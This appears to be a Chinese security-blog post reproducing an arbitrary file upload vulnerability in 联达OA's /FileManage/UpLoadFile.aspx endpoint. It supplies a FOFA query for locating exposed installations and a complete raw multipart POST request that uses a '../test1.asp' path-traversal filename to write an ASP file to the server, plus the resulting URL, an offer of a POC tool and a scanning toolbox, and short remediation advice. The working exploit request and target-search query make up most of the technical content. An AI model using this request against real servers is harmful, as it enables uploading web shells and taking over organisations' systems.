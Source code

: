 #  联达OA UpLoadFile.aspx接口存在任意文件上传漏洞   
南风徐来  南风漏洞复现文库   2024-04-01 23:12  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 联达OA UpLoadFile.aspx接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
联达oa是北京联达动力信息科技股份有限公司推出的新一代OA系统,支持100+应用自行安装与定义,应用表单自定义,支持应用无代码开发,支持多语言。  
## 2.漏洞描述  
  
联达oa是北京联达动力信息科技股份有限公司推出的新一代OA系统,支持100+应用自行安装与定义,应用表单自定义,支持应用无代码开发,支持多语言。联达OA UpLoadFile.aspx接口存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
联达OA  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLHdkleyYaK55icdlLI5nJGzCjj7qg1uIS51JyoK3lyfCGMceYgwtCjNQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
联达OA UpLoadFile.aspx接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="联达OA"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/FileManage/UpLoadFile.aspx  
  
漏洞数据包：  
```
POST /FileManage/UpLoadFile.aspx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 272
Content-Type: multipart/form-data; boundary=07800d96bad08d24dd59e3285dc16968

--07800d96bad08d24dd59e3285dc16968
Content-Disposition: form-data; name="file"; filename="../test1.asp"
Content-Type: image/png

tteesstt1
--07800d96bad08d24dd59e3285dc16968
Content-Disposition: form-data; name="DesignId"

1
--07800d96bad08d24dd59e3285dc16968--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLzIZZkHakLBO8z2erkHYWarMiaweM8pfcCLtfJMdWgvGG7t18YuzTiaqQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传后的地址 http://127.0.0.1/FileManage/test1.asp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLzxoWQkhgGWxKXBw9TOo5DaoicehCib69pQkfgdDHHF6J3ibqWcxaIoxaA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现113 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLSLyFYoyLIKOGaB7tfHEg69NcMia0aibibVa2IfAVgh5zOicHLOzeW3UviaA/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLTMEic5HNgGcgbQMSic6rW3sFGwOiaEdSrEF5PmnDU4FKlqAtuNwAIcm4A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLr61RuKTkOwicwX4S3jJgGpX9SS62dFD1RfGd95klPdIu6zhITDZMkuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLo0J6cyWYepX6QxnFYxrymcxsQU9moQrA130sFXvNukic0o3JcAU790A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLkesicx57puCwGtenUDMUNhwVEVJWT4JpwKjhk691Bll35CRxH5ibb0Ng/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLQgNp9odzpWEDKjLFF0jxiajXBXv67SE04ibeOCeDaqiaoa2KpFlj9ZlTQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
1.联系相关厂商http://www.liandadongli.com，获取安全补丁，及时进行漏洞修复 2.联系相关安全厂商，及时更新安全阻断策略  
## 8.往期回顾  
  
  
[用友NC Cloud nc.bs.sm.login2.RegisterServlet接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485943&idx=1&sn=2287057cc4406b125320ea4c2e730c80&chksm=974b84f0a03c0de6ff44c88c20b5dc22cb748234bdf640fefb12feb3815f17d97e071dc7fe64&scene=21#wechat_redirect)  
  
  
[大华DSS Digital Surveillance System系统login_login.action存在远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485929&idx=1&sn=a7b531bc8c31e30449d23fb2508bba27&chksm=974b84eea03c0df82ac99414eae0e5c93563e9fcabbad855714aff318adba1ab281ad73597c5&scene=21#wechat_redirect)  
  
  
